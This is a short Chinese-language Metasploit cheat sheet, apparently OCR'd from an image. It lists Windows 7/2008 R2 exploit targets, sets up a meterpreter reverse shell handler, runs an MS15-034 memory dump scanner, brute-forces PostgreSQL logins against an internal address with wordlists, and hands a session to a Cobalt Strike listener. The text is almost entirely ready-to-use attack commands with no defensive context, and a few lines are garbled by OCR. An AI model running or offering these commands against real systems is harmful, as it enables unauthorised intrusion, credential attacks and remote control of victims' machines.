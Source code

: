 ```bash
   0   Automatic targeting via fingerprinting
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
   3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
   4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
   5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
   6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
   7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)

```


**Metasploit反弹shell**
```bash
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
exploit -j  # 后台执行
```

**ms15-034**
```bash
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
set rhost ip
run
```


**爆破postgres sql**
```bash
use auxiliary/scanner/postgres/postgres_login
set rhosts 10.7.199.28
set user_file /root/fore/user.txt
set userpass_file /root/fore/pass.txt
set stop_on_success true
exploit
```

**msf转cs**
```bash
use exploit/windows/local/payload_injectset //PAYLOAD
windows/meterpreter/reverse_http
set DisablePayloadHandler true
set LHOST 192.168.5.173 //cs的IP
set LPORT 50050 //cs监听器的端口
set SESSION 1exploit
```
